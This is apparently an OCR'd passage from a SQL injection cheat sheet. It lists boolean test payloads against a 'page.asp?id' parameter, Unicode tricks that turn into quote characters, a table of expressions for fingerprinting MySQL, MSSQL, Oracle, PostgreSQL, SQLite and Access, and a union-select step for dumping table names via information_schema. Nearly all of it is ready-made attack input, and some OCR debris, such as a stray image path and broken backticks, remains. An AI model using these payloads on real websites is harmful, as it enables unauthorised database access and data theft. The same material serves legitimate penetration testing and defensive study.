 Logic Testing

```
page.asp?id=1 or 1=1 -- true
page.asp?id=1' or 1=1 -- true
page.asp?id=1" or 1=1 -- true
page.asp?id=1 and 1=2 -- false
```

Weird characters

```
Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")
Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')
```

### DBMS Identification

```
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```

### Dumping the Database (Manual)

* Extract the table names

`union all select table_name from information`_`_`_`schema.tables`

* **group\_concat()** can be used to extract all the data at once.
